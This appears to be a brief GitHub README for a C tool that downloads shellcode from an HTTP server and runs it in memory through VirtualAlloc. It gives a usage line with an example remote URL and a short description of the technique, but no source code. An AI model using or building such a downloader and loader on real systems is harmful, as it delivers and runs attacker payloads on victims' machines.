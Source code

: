 # Load From HTTP with C

Loading shell code from HTTP server, Using C Programming Language.

Usage: `loaderFromHTTPWithC.exe <http://10.10.10.10/mane.bin>`

## Technical

Send a HTTP Request, receive binary shellcode, bit by bit copy into buffer.

When receive finish, copy buffer into `VirtualAlloc` and jump into shellcode.

And I don't think I am good in programming.